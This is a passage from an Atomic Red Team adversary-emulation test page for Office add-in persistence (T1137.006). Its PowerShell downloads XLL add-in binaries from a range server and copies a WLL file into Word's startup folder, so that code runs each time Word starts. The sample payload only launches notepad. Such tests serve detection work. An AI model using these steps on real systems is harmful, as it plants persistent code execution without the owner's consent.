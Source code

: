 ##### Description: XLL files must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll") -and (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.006\bin\Addins\" -Force | Out-Null
Invoke-Webrequest -Uri "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/excelxll_x64.xll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll"
Invoke-Webrequest -Uri "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/excelxll_x86.xll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll"
```




<br/>
<br/>

## Atomic Test #3 - Persistent Code Execution Via Word Add-in File (WLL)
Creates a Word Add-in file (WLL) which runs automatically when Word is started
The sample WLL provided launches the notepad as a proof-of-concept for persistent execution from Office.
Successfully tested on 32-bit Office 2016. Not successful from microsoft 365 version of Office.

**Supported Platforms:** Windows


**auto_generated_guid:** 95408a99-4fa7-4cd6-a7ef-cb65f86351cf






#### Attack Commands: Run with `powershell`! 


```powershell
$wdApp = New-Object -COMObject "Word.Application"
if(-not $wdApp.path.contains("Program Files (x86)"))  
{
  Write-Host "64-bit Office"
  Copy "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x64.wll" "$env:APPDATA\Microsoft\Word\Startup\notepad.wll"        
}
else{
  Write-Host "32-bit Office"
  Copy "PathToAtomicsFolder\T1137.006\bin\Addins\wordwll_x86.wll" "$env:APPDATA\Microsoft\Word\Startup\notepad.wll"
}
Stop-Process -Name "WinWord" 
Start-Process "WinWord"
```
